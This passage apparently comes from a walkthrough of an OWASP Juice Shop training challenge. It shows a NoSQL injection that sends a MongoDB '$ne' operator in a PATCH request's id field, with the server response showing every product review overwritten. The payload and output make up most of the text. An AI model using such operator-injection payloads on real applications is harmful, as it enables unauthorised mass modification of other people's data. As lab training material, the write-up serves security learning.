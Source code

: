 We'd like to do some NoSQL injection that causes the `id` to match all records in the database with the hopes that it will cause a mass update on all reviews.

In this case since the body of the request is JSON we can't do something like solution to the previous challenge. The first shown below is valid JSON but doesn't result in injection becuase the payload is interpretted as a string, and the second is not valid JSON and causes an HTTP 500.

```
{"id":"8||true","message":"n0j was here"}
{"id":8||true,"message":"n0j was here"}
```

Reading up on [operators](https://docs.mongodb.com/manual/tutorial/query-documents/), try this. 

```
PATCH /rest/product/reviews HTTP/1.1
[...]

{"id":{"$ne": 8},"message":"n0j was here"}
```

```
HTTP/1.1 200 OK
[...]

{"modified":10,"original":[{"message":"I straight-up gots nuff props fo'these tattoos!","author":"mc.safesearch@juice-sh.op","product":16,"_id":"688Aqexebkm7uTaz3"},{"message":"One of my favorites!","author":"admin@juice-sh.op","product":1,"_id":"Au437SixcxCmq7Eur"},{"message":"Looks so much better on my uniform than the boring Starfleet symbol.","author":"jim@juice-sh.op","product":19,"_id":"P74mFvKC27y2T96Am"},{"message":"I bought it, would buy again. 5/7","author":"admin@juice-sh.op","product":3,"_id":"RBuGZTJnPMEWb3gEM"},{"message":"Fresh out of a replicator.","author":"jim@juice-sh.op","product":21,"_id":"TATn24nfvDb5NsdDA"},{"message":"Fry liked it too.","author":"bender@juice-sh.op","product":6,"_id":"XYQc8Q3buB3HP46xs"},{"product":"8||true","message":"n0j was here","author":"Anonymous","_id":"Yz9R5DtShmo5543Sq"},{"message":"Even more interesting than watching Interdimensional Cable!","author":"morty@juice-sh.op","product":31,"_id":"fdkrr6sfoeNiTYr6N"},{"message":"This thang would look phat on Bobby's jacked fur coat!","author":"mc.safesearch@juice-sh.op","product":19,"_id":"hTWuGmdkSPcWxCWRN"},{"product":"1","message":"n0j was here","author":"Anonymous","_id":"qzmYnmTw29tLCr4Z4"}],"updated":[{"message":"n0j was here","author":"mc.safesearch@juice-sh.op","product":16,"_id":"688Aqexebkm7uTaz3"},{"message":"n0j was here","author":"admin@juice-sh.op","product":1,"_id":"Au437SixcxCmq7Eur"},{"message":"n0j was here","author":"jim@juice-sh.op","product":19,"_id":"P74mFvKC27y2T96Am"},{"message":"n0j was here","author":"admin@juice-sh.op","product":3,"_id":"RBuGZTJnPMEWb3gEM"},{"message":"n0j was here","author":"jim@juice-sh.op","product":21,"_id":"TATn24nfvDb5NsdDA"},{"message":"n0j was here","author":"bender@juice-sh.op","product":6,"_id":"XYQc8Q3buB3HP46xs"},{"product":"8||true","message":"n0j was here","author":"Anonymous","_id":"Yz9R5DtShmo5543Sq"},{"message":"n0j was here","author":"morty@juice-sh.op","product":31,"_id":"fdkrr6sfoeNiTYr6N"},{"message":"n0j was here","author":"mc.safesearch@juice-sh.op","product":19,"_id":"hTWuGmdkSPcWxCWRN"},{"product":"1","message":"n0j was here","author":"Anonymous","_id":"qzmYnmTw29tLCr4Z4"}]}
```

![nosql](/img/owasp-juice-shop-v7.3.0/juice089.png)
